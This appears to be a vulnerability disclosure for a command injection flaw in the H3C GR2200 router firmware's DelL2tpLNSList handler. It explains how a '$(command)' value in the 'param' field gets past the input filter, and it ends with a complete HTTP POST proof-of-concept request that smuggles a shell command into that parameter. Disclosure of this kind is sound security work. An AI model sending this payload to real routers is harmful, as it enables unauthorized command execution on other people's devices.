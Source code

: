 # H3C GR2200 MiniGR1A0V100R014 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/cn/
- Firmware download address ： https://www.h3c.com/cn/d_202202/1542099_30005_0.htm

### Product Information

H3C GR2200 MiniGR1A0V100R014  router, the latest version of simulation overview：

![image-20220724132311844](img/image-20220724132311844.png)

## Vulnerability details

H3C GR2200 (MiniGR1A0V100R014) was found to contain a command insertion vulnerability in DelL2tpLNSList.This vulnerability allows an attacker to execute arbitrary commands through the "param" parameter.

![image-20220724112402312](img/image-20220724112402312.png)

Format the `param` parameter we entered into `V13` through the `snprintf` function, and execute our command through the system function. Because `V8` and `V9` are limited to 8 bytes, we can fill `V8` with 8 bytes so that when `%s` in the `snprintf` function is formatted, `V8` and `V9` will be connected actively.

![image-20220724132824754](img/image-20220724132824754.png)

Although the `sub_46EE30` function filters some dangerous characters, we can bypass them with `$(command)`.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following `POC` attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://192.168.124.1:80/maintain_basic.asp
Cookie: JSESSIONID=04f803a0
Upgrade-Insecure-Requests: 1
Content-Length: 67

CMD=DelL2tpLNSList&GO=vpn_l2tp_session.asp&param=1;$(ps>/ww w/1)	#;
```

![image-20220724133957626](img/image-20220724133957626.png)

The picture above shows the debug log after POC is sent.

![image-20220724133234021](img/image-20220724133234021.png)

The above illustration shows the effect of command execution.

